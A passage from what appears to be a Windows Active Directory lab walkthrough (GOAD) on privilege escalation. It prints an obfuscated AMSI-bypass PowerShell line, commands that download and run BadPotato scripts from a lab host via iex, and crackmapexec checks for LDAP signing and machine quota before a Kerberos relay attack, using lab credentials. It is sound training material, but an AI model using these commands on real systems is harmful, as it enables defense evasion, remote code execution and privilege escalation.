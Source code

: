 - If you don't want to compile sweet patatoes you could also do that with BadPotato from PowerSharpPack (but first we must bypass amsi -see the AMSI bypass part before- or it will be detected)

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
Invoke-BadPotato -Command "c:\temp\runme.bat"
```

![privesc_invokebadpatatoes.png](/assets/blog/GOAD/privesc_invokebadpatatoes.png)

### KrbRelay Up

- Another very useful technic to escalate privileges is kerberos relay, like implemented in [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- Thx to @dec0ne who use GOADv1 to demonstrate the technic on his tool :)
- As KrbRelayUp is detected by defender, we will use the step by step approach like [this writeup](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) by @an0n_r0, using @cube0x0 [KrbRelay](https://github.com/cube0x0/KrbRelay)
- At the time of writing KrbRelay is not detected by defender.

- The conditions to exploit this privesc is LDAP signing is NOT enforced, we can check that with cme ldap-signing module :

```bash
 cme ldap 192.168.56.10-12 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M ldap-signing
```

![privesc_ldap_signing.png](/assets/blog/GOAD/privesc_ldap_signing.png)


#### Add computer and RBCD

- To exploit krbrelay by adding a computer, you must be able to add new Computer, we can check that with cme MAQ module

```bash
cme ldap 192.168.56.11 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```

